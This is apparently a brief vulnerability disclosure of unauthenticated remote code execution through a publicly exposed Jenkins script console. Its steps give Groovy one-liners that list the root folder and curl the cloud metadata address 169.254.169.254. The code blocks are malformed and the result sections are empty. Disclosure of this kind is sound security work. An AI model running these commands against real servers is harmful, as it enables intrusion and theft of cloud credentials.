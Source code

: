 # RCE on Jenkins
The Jenkins instance running at $URL has the script function enabled  publicly. 

## Steps To Reproduce

Go to $URL

Run the following commands:

``ls /".execute().text``

This lists the content of the folder.


```
## Result


```

But now let's do something worse. Let's get the AWS metadata server:

```"curl http://169.254.169.254/latest/meta-data/h".execute().text 	

## Result

Result: 
```



## Impact

An unauthenticated, 3rd-party attacker or adversary can execute remote code.
 
### Supporting Material/References
https://hackerone.com/reports/403402
